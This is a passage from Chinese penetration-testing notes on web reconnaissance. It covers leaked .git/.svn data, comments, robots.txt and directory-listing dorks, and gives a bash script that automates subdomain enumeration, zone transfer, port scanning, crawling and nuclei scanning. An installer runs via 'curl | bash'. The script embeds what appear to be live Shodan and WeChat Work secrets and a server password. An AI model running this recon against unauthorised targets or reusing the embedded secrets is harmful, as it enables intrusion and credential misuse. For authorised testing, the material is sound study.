[https://medium.com/swlh/hacking-git-directories-e0e60fa79a36](https://medium.com/swlh/hacking-git-directories-e0e60fa79a36)  
[https://iosentrix.com/blog/git-source-code-disclosure-vulnerability/](https://iosentrix.com/blog/git-source-code-disclosure-vulnerability/)

**SVN**

.svn [svnExploit](https://github.com/admintony/svnExploit)

#### macOS .DS\_Store

敏感信息

#### 异常与调试信息

应用报错显示些绝对路径或者应用信息。

-   数据库 Error
-   后端应用抛出异常，显示调试信息。

调试信息包括 phpinfo，和一些 debug 功能开启，像是 flask debug 模式。

使用 [HaE](https://github.com/gh0stkey/HaE)、[error-message-checks](https://github.com/portswigger/error-message-checks) 两款工具检查。

#### 注释信息

HTML、JavaScript 注释信息可能存在调试信息或者待下线内容。

```xml
<!--HTML 注释-->
```

```javascript
/*JavaScript 注释*/
// JavaScript 注释
```

用 BurpSuite 里 Engagement tools -> Find Comments 工具查找，也要养成习惯打开 DeveloperTools 切换至 Elements 和 Sources 面板查看对应内容。你也可以 Ctrl + Shift + F 打开全局搜索功能或者在 Sources 面板通过开启正则功能搜索注释信息 `//\s?`、`<!--`、`/*`。

手动通过开发者工具搜集 HTML 注释这里有个坑，当页面重定向时没法查看重定向请求的 Response Body：

> 无法加载响应数据：没有可显示的内容，因为此请求被重定向了

使用 BurpSuite BurpSuite 记录完整请求可以避免，使用 curl 也可以它默认不跟随重定向。

#### robots.txt

robots.txt 会放在站点根路径，作用是告诉搜索引擎蜘蛛机器人，别索引我这个文件里哪些页面。

它语法也很简单，下面是匹配 UA 为 Baidu 的爬虫，禁止索引 /test/back.db 文件和 /mulu 目录内容。

```plaintext
# 1. 匹配哪些 User-Agent
User-agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)

# 2. 匹配成功后可以指定哪些目录或文件不让索引
Disallow: /mulu
Disallow: /test/back.db
```

也可对多个 UA 进行匹配批量设置索引范围。

```plaintext
# 匹配 Google、Bing、SoGou 三个搜索引擎
User-agent: Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.115 Mobile Safari/537.36 (compatible; Googlebot/2.1; +http://www.noogle.com/bot.html)
User-agent: Mozilla/5.0 (compatible; bingbot/2.0; +http://www.bing.com/bingbot.htm)
User-agent: Sogou web spider/4.0(+http://www.sogou.com/docs/help/webmasters.htm#07)

# 不让索引任何内容
Disallow: /
# 除了 /test.txt 可以索引。这相当于设置白名单
Allow: /test.txt
```

更简单粗暴你可以不允许任何爬虫进行索引。

```plaintext
User-agent: *
Disallow: /
```

在信息收集中，可能有些管理员配置了 robots.txt 不让搜索引擎索引后台、敏感文件等，测试人员可能会透过这些信息扩大供攻击范围。

#### Directory listing

WebServer 配置启用索引功能，当 index.html 或其他首页文件不存在就会展示出根目录下所有文件、目录。

下图是 Apache 出现的问题。


实际利用可以通过关键词搜索对应域名看 Google 有没收录。

```plaintext
site:Directory listing intitle:index.of
intitle:"Directory Listing, Index of /*/"
intitle:"Directory Listing" "tree view"
intitle:"Directory Listing For" intext:Tomcat -int
"Directory Listing for" "Hosted by Xerver"
"Welcome to the directory listing of" "NetworkActiv-Web-Server"
intitle:"Directory Listing For /" + inurl:webdav tomcat
intitle:"Directory Listing For" "Filename" intext:Tomcat/5.0.28
```

## 6 自动化

基于本文提到的信息收集方式，可以总结流程，让脚本帮我们执行工具并处理数据，提高效率。自动化信息收集一定是必须的，能够自动化的内容后面都会用工具替代。人会累毕竟是个体力活，如果不能自动化可以找一些别人写好的现成工具使用（比如 [reconftw](https://github.com/six2dez/reconftw)），只会手动收集的人会被工具替代。


### 6.1 监控

#### 6.1.1 资产入库

建立一个基本的 CMDB，数据收集维度：域名、IP、中间件/框架、开放端口、脚本语言。

数据库选择方便迁移的，比如 sqlite

#### 6.2.2 资产监控

所谓监控肯定是对目标进行周期性扫描并对比数据变化，对数据方面如何整理可以参考 [Introducing BBRF: yet another Bug Bounty Reconnaissance Framework – Honoki](https://honoki.net/2020/10/08/introducing-bbrf-yet-another-bug-bounty-reconnaissance-framework/)

资产扫描周期：每日。或者根据被动源每月限制搜索树来确定周期。

1.  新增APP 、子域名、端口通过现有服务 Web API （AWS应该有这个付费服务）做短信、邮件、电话通知增量内容。
    
    1.  用 diff 进行比较就可以。
        
        ```shell
         curl -X POST -H 'Content-type: application/json' --data '{"text":"Found new Subdomains"}'
        ```
        
        比如将侦察日期写入一个文件，刚好日期是目录的名字最后通过 tail -n 2 来进行最近两个日期的文件比对。
        
        anew 比对 `cat subs.txt | anew domain.txt`，将会筛选出 subs.txt 中新增域名。数据每半年清理一次，用 cron 调度。
        
    
    监控可以通过 Web APP 进行查看，数据库使用轻量级 RDBMS。
    

监控：  
[https://notica.us/](https://notica.us/)

排序方法最终采用 grep

grep 获得 aaa.txt 差集，不需要排序（待测试）  
显示 pattern 不包含的内容，也就是 pattern 差集  
grep -Fxvf pattern.txt content.txt

comm 用于比对已经排序的文件效果很好，一旦相同数据不在同一行则判断为差异。aaa.txt的差集  
comm aaa.txt bbb.txt -2 -3

另一个方案可以使用 git 做数据比较。

##### 企业微信

本来打算使用[Server酱](https://sct.ftqq.com/)推到企业微信，一看企业微信有 API 就自己动手啦。

获取 access\_token，所有操作需要 corpid、corpsecret 凭证。

从后台获取 corpid


corpsecret 在应用管理 -> 创建应用


创建完成直接查看


收集到两条数据发送请求获得 Token。

```plaintext
https://qyapi.weixin.qq.com/cgi-bin/gettoken?corpid=<企业ID
>&corpsecret=<Token>
```

通过此接口来发送信息：[https://open.work.weixin.qq.com/wwopen/devtool/interface/combine](https://open.work.weixin.qq.com/wwopen/devtool/interface/combine)

不直接推送讯息，把数据留在微信服务器不安全，放在自己服务器，直接发送 URL。

```http
POST /cgi-bin/message/send?access_token=<access_token>
Host: https://qyapi.weixin.qq.com
Connection: close
Content-Length: 495
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
Accept: application/json, text/plain, */*
DNT: 1
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

{
  "touser": "@all",
  "toparty": "@all",
  "totag": "@all",
  "msgtype": "textcard",
  "agentid": 1000002,
  "textcard": {
    "title": "domain.com",
    "description": "<div class=\"gray\">2021年4月7日</div> <div class=\"normal\">对比 www.wanmei.com/20210407_103707 数据</div><div class=\"highlight\">本次新增子域名 100 个</div>",
    "url": "http://raingray.com:7171/wanmei.com/20210406_184833/new.txt?view",
    "btntxt": "详情"
  },
  "enable_id_trans": 0
}
```

发送请求需要提供几个参数：

-   agentid，在前面应用管理中查看此应用 id
-   touser，@all 表示发送给所有人，
-   toparty/totag，@all 不启用此参数

接下来就 curl 直接请求

```plaintext
curl -d '{"touser":"@all","toparty":"@all","totag":"@all","msgtype":"textcard","agentid":1000002,"textcard":{"title":"domain.com","description":"<div class=\"gray\">2021年4月7日</div> <div class=\"normal\">对比 www.wanmei.com/20210407_103707 数据</div><div class=\"highlight\">本次新增子域名 100 个</div>","url":"http://raingray.com:7171/wanmei.com/20210406_184833/new.txt?view","btntxt":"详情"},"enable_id_trans":0}' https://qyapi.weixin.qq.com/cgi-bin/message/send?access_token=<access_token>
```

##### Recon 数据浏览

随时开启 HTTP 服务查看 Recon 数据。

[updog](https://github.com/sc0tfree/updog) 替代了 `python3 -m http.server`，updog 有更好的界面和 Basic 认证，还可以向服务器上传数据。

```plaintext
updog -d ~/recon/data -p 7171 --password recondata
```

.bash\_profile 添加方法。

```shell
# 开启 HTTPServer
dataserver() {
    python3 -m http.server 0.0.0.0:7171
}
```

将浏览数据的方法放入 .bash\_profile，要注意 --password 要复杂些，不然被人拿 Shell 了。

```plaintext
echo -e "# 开启 HTTPServer\ndataserver() {\n    updog -d ~/recon/data -p 7172 --password <password>\n}" >> ~/.bash_profile
```

### Bash 脚本

```shell
#!/bin/bash

data_date=`date +%Y%m%d%H%M%S`
data="$HOME/recon/data/"
data_path=$data
tools_path="$HOME/recon/tools/"
config_path="$HOME/recon/opt/"
domain=""
scan=false
alter=false

cd $tools_path


banner() {
  echo '
8888888b.                                    888       888               888      
888   Y88b                                   888   o   888               888      
888    888                                   888  d8b  888               888      
888   d88P .d88b.  .d8888b .d88b. 88888b.    888 d888b 888 .d88b. 888d888888  888 
8888888P" d8P  Y8bd88P"   d88""88b888 "88b   888d88888b888d88""88b888P"  888 .88P 
888 T88b  88888888888     888  888888  888   88888P Y88888888  888888    888888K  
888  T88b Y8b.    Y88b.   Y88..88P888  888   8888P   Y8888Y88..88P888    888 "88b    Author: @raingray
888   T88b "Y8888  "Y8888P "Y88P" 888  888   888P     Y888 "Y88P" 888    888  888    Version: 0.1
'
}


# 脚本使用说明
help() {
    echo 'Usage: ReconWork.sh -d <domain>'
    exit
}

# 初始化目录
init() {
    if [[ -z $1 ]]
    then
        help
        exit 1
    fi

    # 数据存放目录全局变量 data 已在函数中更改
    data=$data/$1/$data_date

    if [ -d $data ] && [ -d $data/endpoint ] && [ -d $tools_path ] && [ -d $config_path ]
    then
        cd $tools_path
    else
        mkdir -p $data $tools_path $config_path $data/endpoint
        cd $tools_path
    fi
}


# 区域传输
zone_transfer() {
    server=`host -t ns $1 | awk '{print $4}' | tr "\n" " "`
    for s in $server
    do
        host -l $1 $s | grep "has address" | sed "s/has address //g" | tee -a $data/`date +%Y%m%d_%H%M%S`_zoneTransfer_domain_temp.txt
    done

    sort -u $data/*zoneTransfer_domain_temp.txt | tee $data/`date +%Y%m%d_%H%M%S`_zoneTransfer_domain.txt
    rm -f $data/*zoneTransfer_domain_temp*

    echo "[+] Zone transfer teting complete"
}


subdomain_tools_run() {
    zone_transfer $1
    ./subfinder -d $1 -silent -nc -t 50 -o $data/`date +%Y%m%d_%H%M%S`_subfinder_domain.txt
    ./assetfinder $1 | tee $data/`date +%Y%m%d_%H%M%S`_assetfinder_domain.txt
    curl -s -k "https://crt.sh/?q=%.$1&output=json" | jq '.[].name_value' | tr -d '"' | sed 's/\\n/\n/g'  | sed 's/^\*\.//g' | sort -u | tee $data/`date +%Y%m%d_%H%M%S`_cer_domain.txt
    curl -s -k "https://api.certspotter.com/v1/issuances?domain=$1&include_subdomains=true&expand=dns_names" | jq '.[].dns_names[]' | tr -d '"' | sed 's/\*\.//g' | sort -u | grep $1 | tee $data/`date +%Y%m%d_%H%M%S`_certspotter_domain.txt
    curl -s -k "https://sonar.omnisint.io/subdomains/$1" | jq '.[]' | sed 's/"//g' | tee $data/`date +%Y%m%d_%H%M%S`_sonar_domain.txt
    curl -s -k "https://rapiddns.io/subdomain/$1?full=1" | grep -oP '_blank">\K[^<]*' | grep -v http | sed 's/^\*\.//g' | sort -u | tee $data/`date +%Y%m%d_%H%M%S`_rapiddns_domain.txt
    cd Sudomy-master; ./sudomy -d $1 -b --no-probe -o $data; cd ..
    python3 ./Sublist3r-1.1/sublist3r.py -b -d $1 -o $data/`date +%Y%m%d_%H%M%S`_sublist3r_domain.txt
    ./gobuster dns -d $1 -c -q -z --timeout 3s -w $config_path/best-dns-wordlist.txt | cut -d ' ' -f 2 | sort -u | tee $data/`date +%Y%m%d_%H%M%S`_gobuster_domain.txt
    ./amass_linux_amd64/amass enum -noalts -nf $config_path/nameserver.txt -d $1 -config $config_path/amass_config.ini -o $data/`date +%Y%m%d_%H%M%S`_amass_domain.txt

    echo "[+] SubDomain tools running done"
}


# 域名数据处理
process_domain_data() {
    tmp_file_name=$data/tmp_all_domain.txt
    mkdir $data/tmp_domain
    mv $data/*domain.txt $data/Sudomy-Output/$domain/subdomain.txt $tools_path/Sudomy-master/output/Gobuster.log $data/tmp_domain # 暂存临时文件，用于观察被动源是否正常获取，后期可能删除。
    cat $data/tmp_domain/* | tee $tmp_file_name
    sort $tmp_file_name | uniq -i | tee $data/tmp_domain/all_domain.txt

    if $1 # 判断是否需要针对已存在子域名域名进行排列组合
    then
        #altdns -i $tmp_file_name -o $data/tmp_altdns_domain.txt -w $config_path/altdns_word.txt  # 考虑移除 altdns 已经没人维护
        dnsgen $tmp_file_name | tee $data/tmp_dnsgen_domain.txt
        cut -d ":" -f 1 $data/tmp_altdns_domain.txt | tee -a $tmp_file_name
        #cat $data/tmp_dnsgen_domain.txt | tee -a $tmp_file_name && rm -f $data/tmp_dnsgen_domain.txt $data/tmp_altdns_domain.txt # 硬盘不足先删掉排列 dns 信息，避免接下来排序 /tmp 空间不足
        cat $data/tmp_dnsgen_domain.txt | tee -a $tmp_file_name && rm -f $data/tmp_dnsgen_domain.txt # 硬盘不足先删掉排列 dns 信息，避免接下来排序 /tmp 空间不足
    fi

    sort -S 75% $tmp_file_name | uniq -i | tee $data/all_domain.txt
    rm -rf $data/Sudomy-Output $tmp_file_name # 还有个临时域名目录 $data/tmp_domain 暂未删除,用于观察被动源是否正常

    echo "[+] Domain data collection is complete"
}


github_dorker() {
    python3 GitDorker/GitDorker.py -tf GitDorker/tf/TOKENSFILE -d GitDorker/Dorks/alldorksv3 -q $1 -p -o $data/$1
    mv $data/${1}_gh_dorks.csv $data/${1}_gh_dorks.txt

    echo "[+] GithubDorker runing done"
}


domain_resolution() {
    ./dnsx -l $data/all_domain.txt -r $config_path/nameserver.txt -silent -retry 1 -rl 200 -resp -o $data/valid_domain.txt
    cdn_identification

    echo "[+] Domain resolve done"
}


cdn_identification() {
    # 剔除已知 CDN 数据，避免无效端口扫描
    cut -d ' ' -f 1 $data/valid_domain.txt | sort | uniq -c | awk '$1>1{print $2}' | tee $data/suspected_cdn_domain.txt  > /dev/null

    if [ ! -s $data/suspected_cdn_domain.txt ]
    then
        rm -f $data/suspected_cdn_domain.txt
        return
    fi

    cat suspected_cdn_domain.txt | xargs -n 1 host -t cname | grep 'is an alias for' | awk 'BEGIN{OFS=";"} {print $1,$6}' | tee $data/tmp_cdn_check.txt > /dev/null

    for c in $(cat $data/tmp_cdn_check.txt)
    do
        source_domain=$(echo $c | awk -F ';' '{print $1}')
        cdn_domain=$(echo $c | cut -d ';' -f 2 | gawk 'BEGIN{FS="."; OFS="."} {print $(NF-2),$(NF-1)}')
        check_result=$(jq -r ".[\"${cdn_domain}\"].name" ${config_path}/cdn.json)

        if [[ $check_result != 'null' ]]
        then
            deleted_domain_name=$(echo $c | awk -F ';' '{print $1}')
            sed -i "/$deleted_domain_name/d" $data/valid_domain.txt
            echo $deleted_domain_name,$check_result | tee -a $data/cdn_domain.txt > /dev/null
        else
            # 字段说明：source_domain,cname_domain,remarks(plase manually add data to cdn.json)
            echo "source_domain,cname_domain,remarks(plase manually add data to cdn.json)" > $data/out_of_range_cdn_domain.txt
            echo "${cdn_domain},${source_domain}" >> $data/out_of_range_cdn_domain.txt
        fi
    done

    # 输出不在 CDN 名单中的域名，避免 LBG 场景。
    if [ -s $data/out_of_range_cdn_domain.txt ]
    then
        echo "CDN 名单检查："
        for d in $(awk '{print $1}' $data/out_of_range_cdn_domain.txt | tail -n +2 | sort -u)
        do
        # 可能存在误报，解析到甲方其他域名上这种情况无法判断。还有人工收集信息太慢，能否自动更新 CDN 列表？
        check_status=$(jq -r ".[\"${d}\"].name" $config_path/cdn.json)
        if [[ $check_status == 'null' ]]; then
            echo "$d, CDN 厂商不在名单中请手动检查添加"
        fi  
        done
        # rm -f $data/out_of_range_cdn_domain.txt  # 待 cdn.json 数据积累到一定量请删除它。
    fi

    rm -f $data/tmp_cdn_check.txt

    if [ -s $data/cdn_domain.txt ]
    then
        echo -e "\033[31m[!]\033[0m 域名解析到多个地址，请手动验证 $data/cdn_domain.txt"
    else
        rm -f $data/cdn_domain.txt  # 删除空文件
    fi
}


scan_port() {
    cut -d ' ' -f 1 $data/valid_domain.txt | sort | uniq -c | awk '$1==1{print $2}' | tee $data/tmp_scan_domain.txt
    awk 'NR==FNR{a[$1]=$2; next} NR!=FNR{print $1,a[$1]}' $data/valid_domain.txt $data/tmp_scan_domain.txt | tee $data/scan_domain.txt
    rm -f $data/tmp_scan_domain.txt
    cut -d ' ' -f 2 $data/scan_domain.txt | tr -d [] | sort -u -o $data/tmp_ips.txt

    local port_range=""

    if [[ $1 == "top1000" ]]
    then
        #port_range="-top-ports 1000"
        port_range="$config_path/nmap_top1000_port.txt"
        for p in $(cat $port_range)
        do
            ./naabu -iL $data/tmp_ips.txt -p $p -silent | tee -a $data/host_open_port.txt > /dev/null
        done
    elif [[ $1 == "all" ]]
    then
        port_range="-p -"
        for p in $(seq 65535)
        do
            ./naabu -iL $data/tmp_ips.txt $p -silent | tee -a $data/host_open_port.txt > /dev/null
        done
    else
        echo "[+] Skip port scan"
        return
    fi

    echo "[+] Port and service scanning done"
}


passvie_scan_port() {
    # 编写中...
    # 需要解决 JSON 数据处理问题, 获取到端口然后嘞
    curl -X GET "https://api.shodan.io/shodan/host/IP地址?key=Ni4y3GbuBsid2jetR8dOx75z4u6TCYDx"  | jq .ports,.ip_str
}


check_web_service() {
    local web_host=$data/host_open_port.txt

    if [ ! -e $web_host ]
    then
        web_host=$data/tmp_ips.txt
    fi

    ./httpx -silent -no-fallback -no-color -timeout 10 -retries 2 -status-code -title -content-length -H 'Mediapartmers-Google' -l $web_host -o $data/valid_webapp.txt
    rm -f $data/tmp_ips.txt

    echo "[+] Web application open verification done"
}


screenshot() {
    cd gowitness
    cut -d ' ' -f 1 $data/valid_webapp.txt | xargs -n 1 ./gowitness single -F --user-agent "Googlebot-Image/1.0"
    cd ..

    echo "[+] Web application screenshot done"
}


crawl() {
    local tmp_crawl_file=$data/tmp_crawl.txt
    crawl_file=$data/crawl.txt
    cut -d ' ' -f 1 $data/valid_webapp.txt | xargs -n 1 ./gospider -c 10 -t 5 -d 5 --sitemap -a -q --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,svg,txt -s | tee $tmp_crawl_file
    cut -d ' ' -f 1 $data/valid_webapp.txt | ./gau -b jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,svg,txt -random-agent | tee -a $tmp_crawl_file
    cut -d ' ' -f 1 $data/valid_webapp.txt | xargs -n 1 ./hakrawler -plain -insecure -usewayback -depth 6 -url | tee -a $tmp_crawl_file
    #curl http://visualsitemapper.com/mapdata/raingray.com | jq .nodes[].url | tr -d '"' | tee -a $tmp_crawl_file #只支持域名查询，暂不启用，需要将IP与域名对比后的数据进行输入，前面函数中有个 awk 可以将它提取为独立函数处理数据。 
    cut -d ' ' -f 1 $data/valid_webapp.txt | xargs -n 1 ./hakrawler -plain -insecure -usewayback -depth 6 -js -url | tee -a $tmp_crawl_file
    sort -u $tmp_crawl_file | tee $crawl_file
    rm -f $tmp_crawl_file

    echo "[+] Crawl running done"
}


analyze_js() {
    for js in `grep -Eo "(http|https)://[^/\"].*\.js+" $data/crawl.txt`  # 此正则会将 js 后面参数去除，比如 1.js?v=20210201 改为 1.js
    do
        local filename=`echo $js | cut -d '/' -f 3 | sed 's/:/_/'`
        python3 $tools_path/SecretFinder.py -g 'layer;jquery;bootstrap;vue' -o cli -i $js | tee -a $data/endpoint/${filename}.txt
        echo "[ + ] LinkFinder URL: $js" | tee -a $data/endpoint/${filename}.txt
        python3 $tools_path/linkfinder.py -i $js -o cli | tee -a $data/endpoint/${filename}.txt
    done

    echo "[+] Javascript analyze done"
}


scan_vul() {
    $tools_path/nuclei -silent -l $data/valid_webapp.txt -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36" -t $tools_path/nuclei-templates/ -o $data/nuclei_results.txt

    echo "[+] Vulnerabilities fast scanning done"
}


notice() {
    access_token=`curl -s "https://qyapi.weixin.qq.com/cgi-bin/gettoken?corpid=wwe7065ea589566aa2&corpsecret=mJkLu-xNLcd274WMSAMxPI_fOkae4FI7qvgrrSa_kXw" | jq .access_token | tr -d \"`
    local data="{\"touser\":\"@all\",\"toparty\":\"@all\",\"totag\":\"@all\",\"msgtype\":\"textcard\",\"agentid\":1000002,\"textcard\":{\"title\":\"$1\",\"description\":\"<div class=\\\"gray\\\">$(date +%Y年%m月%d日)</div> <div class=\\\"normal\\\">对比 $2 数据</div><div class=\\\"highlight\\\">本次新增子域名 $3 个</div>\",\"url\":\"http://raingray.com:7171/$4?view\",\"btntxt\":\"详情\"},\"enable_id_trans\":0}"

    curl -s -d "$data" https://qyapi.weixin.qq.com/cgi-bin/message/send?access_token=$access_token

    echo "[+] Send new subdomain reminder done"
}


diff_data() {
    # 根据目录内数据修改时间来获取最新目录
    diff_dir_name=$data_path/$1
    target_dir=(`ls $diff_dir_name`)

    if [[ -z $target_dir ]]
    then
        return
    fi

    order_index=(`echo ${target_dir[*]} | tr  ' ' '\n' | sort -nr`)
    top1=${order_index[0]}
    top2=${order_index[1]}
    file_path='tmp_domain/all_domain.txt'

    if [[ -n $top1 ]] && [[ -n $top2 ]]
    then
        #diff -c $diff_dir_name/$top1/$file_path $diff_dir_name/$top2/$file_path | awk -F '+ ' '{print $2}' | grep -v '^$' | tee $diff_dir_name/$top1/incremental_domain.txt
        #diff -c $diff_dir_name/$top1/$file_path $diff_dir_name/$top2/$file_path
        #comm $diff_dir_name/$top1/$file_path $diff_dir_name/$top2/$file_path -2 -3

        # 获得 $diff_dir_name/$top2/$file_path 差集得到新增子域
        grep -Fxvf $diff_dir_name/$top2/$file_path $diff_dir_name/$top1/$file_path | tee $diff_dir_name/$top1/incremental_domain.txt > /dev/null
        #echo 文件A $diff_dir_name/$top2/$file_path 文件B $diff_dir_name/$top1/$file_path

        notice $1 $diff_dir_name/$top2/$file_path $(wc -l $diff_dir_name/$top1/incremental_domain.txt | cut -d ' ' -f 1) $1/$top1/incremental_domain.txt
    fi
}


while getopts :hasSd: opt
do
    case $opt in
        h) help ;;  # getopts 不支持长选项，$opt 里不会找到 --help
        a) alter=true ;;
        s) scan="top1000" ;;
        S) scan="all" ;;
        d) domain=$OPTARG ;;
    esac
done

init $domain
subdomain_tools_run $domain
process_domain_data $alter
diff_data $domain
github_dorker $domain &
domain_resolution
scan_port $scan
check_web_service
screenshot
crawl
analyze_js
scan_vul
wait
```

工具安装脚本。

```shell
#!/bin/bash
#
# Usage: curl -s https://github/report/vps.sh | bash

RED='\033[0;31m'
NC='\033[0m' # No Color

# 初始化文件夹
cd $HOME
mkdir recon
cd recon
mkdir data tools opt

# 安装 Python/GoLang 等环境
# 待做：需要检测到底是 Ubuntu 还是 CentOS 类系统方便替换包管理工具
echo -e"${RED}Install tools env${NC}"
cd tools
yum -y epel-release install jq python3 unzip p7zip bind-utils git
python3 -m pip install -U pip
go_ver=$(curl 'https://golang.google.cn/VERSION?m=text')
wget https://golang.google.cn/dl/${go_ver}.linux-amd64.tar.gz
rm -rf /usr/local/go && tar -C /usr/local -xzf ${go_ver}.linux-amd64.tar.gz
rm -f ${go_ver}.linux-amd64.tar.gz
export PATH=$PATH:/usr/local/go/bin
export GO111MODULE=on
export GOPROXY=https://goproxy.cn

# 下载工具
echo "${RED}Download and install tools${NC}"
download_link() {
    wget -q --no-check-certificate $(curl -s -k https://api.github.com/repos/$1/releases | jq -r .[0].assets[].browser_download_url | grep linux | grep amd64)
}

download_link projectdiscovery/subfinder 
download_link projectdiscovery/naabu
download_link projectdiscovery/httpx
download_link projectdiscovery/dnsx
download_link lc/gau
download_link projectdiscovery/nuclei && ./nuclei -ut -ud $HOME/recon/tools
download_link tomnomnom/assetfinder
download_link OWASP/Amass
download_link OJ/gobuster 
download_link sensepost/gowitness && mkdir gowitness && cd gowitness && mv ../gowitness-* . && mv gowitness* gowitness && chmod +x gowitness && cd ..
wget --no-check-certificate $(curl -s -k https://api.github.com/repos/jaeles-project/gospider/releases | jq .[0].assets[].browser_download_url | grep linux | grep x86_64)

ls *.tar.gz *.tgz | xargs -n 1 tar -xzf ; unzip -o amass*.zip
mv gospider_*/gospider .
7za x gobuster*.7z && mv gobuster-*/gobuster . && chmod +x gobuster
rm -rf *.zip *.tar.gz *.tgz gospider_* *.7z gobuster-* README.md LICENSE

# 安装字体以支持 gowitness 截图不乱码
mkdir -p /usr/share/fonts/
cd /usr/share/fonts/opentype/noto
wget --no-check-certificate https://github.com/adobe-fonts/source-han-serif/raw/release/SubsetOTF/SourceHanSerifCN.zip
unzip SourceHanSerifCN.zip
fc-cache -f -v
rm -f SourceHanSerifCN.zip
cd ..

# GithubDorker，Github Token 需要添加进去
git clone https://github.com/obheda12/GitDorker && pip3 install -r GitDorker/requirements.txt

# LinkFinder
git clone https://github.com/GerbenJavado/LinkFinder.git
cd LinkFinder
python3 setup.py install
pip3 install -r requirements.txt
cd ..

# Sublist3r
git clone https://github.com/aboul3la/Sublist3r.git && pip3 install -r requirements.txt

# SecretFinder
git clone https://github.com/m4ll0k/SecretFinder.git secretfinder
cd secretfinder && pip3 install -r requirements.txt && cd ..

# dnsgen
pip3 install dnsgen

# Sudomy
git clone --recursive https://github.com/screetsec/Sudomy.git
pip3 install -r Sudomy/requirements.txt

# HTTPServer
pip3 install updog

# CDN 识别数据
wget --no-check-certificate https://raw.githubusercontent.com/raingray626/cdn-identification/main/cdn.json -O $HOME/opt/cdn.json

# hakrawler 爬虫
git clone https://github.com/hakluke/hakrawler.git hakrawler-tmp
cd hakrawler-tmp
export CGO_ENABLED=0 GOOS=linux GOARCH=amd64
go build -o ../hakrawler main.go
cd .. && rm -rf hakrawler-tmp $HOME/go

# 设置数据和截图服务器开启方法
echo "Setting screenshot and http server"
echo "${RED}screenshot works on TCP port 7171, updogis 7172, So it needs to open the rule in the firewall${NC}"
echo "${RED}For server security, please change your updog password${NC}"
echo -e "# 启动截图工具服务器\nscreenshot() {\n    cd $HOME/recon/tools/gowitness/\n    ./gowitness report serve -a 0.0.0.0:7171\n}\n\n# 开启 HTTPServer\ndataserver() {\n    updog -d $HOME/recon/data -p 7172 --password 2021pentestdata\n}" >> $HOME/.bash_profile
. $HOME/.bash_profile


#############初始化配置文件###############
cd $HOME/recon/opt

# nmap top1000 port
wget -q --no-check-certificate https://raw.githubusercontent.com/nmap/nmap/master/nmap-services -O $HOME/opt/nmap-services
grep -v ^# $HOME/opt/nmap-services | grep '/tcp' | sort -rk 3  | head -n 1000 | less | awk '{print $2}' | less | tr -d '/tcp' | tee $HOME/opt/nmap_top1000_port.txt > /dev/null
rm -f $HOME/opt/nmap-services


# dict

# add dns server into crontab
# 00 02 * * * cd $HOME/recon/opt && wget https://raw.githubusercontent.com/janmasarik/resolvers/master/resolvers.txt && echo -e "8.8.4.4\n9.9.9.9\n8.8.8.8\n1.0.0.1\n1.1.1.1" >> resolvers.txt && sort -u resolvers.txt > nameserver.txt; rm -f resolvers.txt
```

### 云产品⚒️

比如云函数或 AWS Lambda 表达式自动信息收集。

所有数据通过云数据库存储。

已经有很多人这么干。

### 分布式扫描⚒️

另一个：[https://github.com/sw33tLie/fleex](https://github.com/sw33tLie/fleex)

抛弃上面写的 Shell 脚本，在 Recon 大型目标时速度很慢

使用 [axiom](https://github.com/pry0cc/axiom) 分布式扫描。

参考链接

-   [https://github.com/pry0cc/nahamcon-axiom-demo-2021](https://github.com/pry0cc/nahamcon-axiom-demo-2021)
-   [https://www.youtube.com/watch?v=t-FCvQK2Y88](https://www.youtube.com/watch?v=t-FCvQK2Y88)

参考文章：

-   [https://securit.ie/blog/?p=86，自动化监控架构](https://securit.ie/blog/?p=86%EF%BC%8C%E8%87%AA%E5%8A%A8%E5%8C%96%E7%9B%91%E6%8E%A7%E6%9E%B6%E6%9E%84)
-   [https://findomain.app/findomain-advanced-automated-and-modern-recon/，，可以解决现在脚本痛点](https://findomain.app/findomain-advanced-automated-and-modern-recon/%EF%BC%8C%EF%BC%8C%E5%8F%AF%E4%BB%A5%E8%A7%A3%E5%86%B3%E7%8E%B0%E5%9C%A8%E8%84%9A%E6%9C%AC%E7%97%9B%E7%82%B9)
-   [https://github.com/pry0cc/axiom，基于云主机的分布式扫描工具，可以快速配置测试环境，在多台服务器上对多个一个目标执行任务，快速获得结果](https://github.com/pry0cc/axiom%EF%BC%8C%E5%9F%BA%E4%BA%8E%E4%BA%91%E4%B8%BB%E6%9C%BA%E7%9A%84%E5%88%86%E5%B8%83%E5%BC%8F%E6%89%AB%E6%8F%8F%E5%B7%A5%E5%85%B7%EF%BC%8C%E5%8F%AF%E4%BB%A5%E5%BF%AB%E9%80%9F%E9%85%8D%E7%BD%AE%E6%B5%8B%E8%AF%95%E7%8E%AF%E5%A2%83%EF%BC%8C%E5%9C%A8%E5%A4%9A%E5%8F%B0%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E5%AF%B9%E5%A4%9A%E4%B8%AA%E4%B8%80%E4%B8%AA%E7%9B%AE%E6%A0%87%E6%89%A7%E8%A1%8C%E4%BB%BB%E5%8A%A1%EF%BC%8C%E5%BF%AB%E9%80%9F%E8%8E%B7%E5%BE%97%E7%BB%93%E6%9E%9C)。
-   [https://www.brevityinmotion.com/automated-cloud-based-recon/，云设计思路](https://www.brevityinmotion.com/automated-cloud-based-recon/%EF%BC%8C%E4%BA%91%E8%AE%BE%E8%AE%A1%E6%80%9D%E8%B7%AF)

## 7 侦察范围

前面始终没讨论侦察范围这概念，并不是所有目标都是这么庞大，需要用到所有的侦察方法，有些任务就限制死这一个应用范围，那应该就执行应用架构与应用侦察小节讨论到的技术，范围外的不做过多关注。

@harshbothra\_ 做了一个针对不同应用的侦察清单，可以结合本文一起使用。


## 参考资料

-   [常用域名记录](https://www.ezloo.com/2011/04/a_mx_cname_txt_aaaa_ns.html)
